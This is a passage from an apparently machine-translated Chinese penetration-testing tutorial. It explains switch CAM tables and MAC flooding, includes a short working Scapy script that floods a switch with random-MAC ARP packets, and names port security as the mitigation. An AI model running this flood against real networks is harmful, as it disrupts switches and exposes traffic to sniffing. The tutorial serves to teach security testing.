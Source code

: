 ### 开关如何使用凸轮台

交换机通过物理端口学习所连接设备的 MAC 地址，并将该项写入 CAM 表，如下图所示：

![How the switch uses the CAM tables](graphics/8583OT_04_12.jpg)

这显示了 CAM 表格学习活动

上图分为两部分。在第 1 部分中，具有**MAC A**的计算机向具有**MAC B**的计算机发送**ARP**数据包。交换机学习数据包，从物理端口 1 到达，并在 CAM 表中创建条目，以便 MAC 1 与端口 1 相关联。交换机向所有连接的设备发送数据包，因为它没有**MAC B**的 CAM 条目。在图的第二部分，带有**MAC B**的计算机响应。交换机得知它来自端口 2。因此，交换机会创建一个条目，说明**MAC B**计算机已连接到端口 2。

### MAC 洪水逻辑

当我们发送大量请求时，如上图所示，如果主机 a 使用不同的 MAC 发送假的 ARP 请求，那么每次交换机都会为端口 1 创建一个新条目，如 a-1、X-1、Y-1 等。有了这些假条目，CAM 表将变满，开关将开始像集线器一样工作。

现在，让我们编写代码：

```
from scapy.all import *
num = int(raw_input("Enter the number of packets "))
interface = raw_input("Enter the Interface ")

eth_pkt = Ether(src=RandMAC(),dst="ff:ff:ff:ff:ff:ff")

arp_pkt=ARP(pdst='192.168.1.255',hwdst="ff:ff:ff:ff:ff:ff")

try:
  sendp(eth_pkt/arp_pkt,iface=interface,count =num, inter= .001)

except : 
  print "Destination Unreachable "
```

前面的代码很容易理解。首先，它询问您要发送的数据包的数量。然后，对于接口，您可以选择`wlan`接口或`eth`接口。`eth_pkt`语句形成具有随机 MAC 地址的以太网数据包。在`arp_pkt`语句中，使用目的 IP 和目的 MAC 地址形成`arp`请求包。如果您想查看完整的数据包字段，可以使用 scapy 中的命令`arp_pkt.show()`。

`mac_flood.py`的 Wireshark 输出如下：

![The MAC flood logic](graphics/8583OT_04_13.jpg)

MAC 泛洪攻击的输出

MAC 洪泛的目的是检查交换机的安全性。如果攻击成功，请在报告中标记成功。为了减轻 MAC 洪泛攻击，请使用端口安全。端口安全性将传入流量限制为仅选择组 MAC 地址或有限数量的 MAC 地址和 MAC 洪泛攻击。我希望你喜欢这一章。

# 总结

在本章中，我们学习了无线帧，以及如何使用 Python 脚本和 scapy 库从无线帧中获取 SSID、BSSID 和通道号等信息。我们还学习了如何将无线设备连接到 AP。在收集信息之后，我们开始进行无线攻击。我们讨论的第一个攻击是 deauth 攻击，它类似于 Wi-Fi 干扰机。在这种攻击中，您必须攻击无线设备，并查看 AP 或入侵检测系统的反应。我们讨论的下一个攻击是 MAC 泛洪攻击，它基于 CAM 表的逻辑，您可以在其中检查端口安全性是否存在。

在下一章中，您将了解 web 服务器的脚打印。您还将学习如何获取 HTTP 标题和横幅抓取。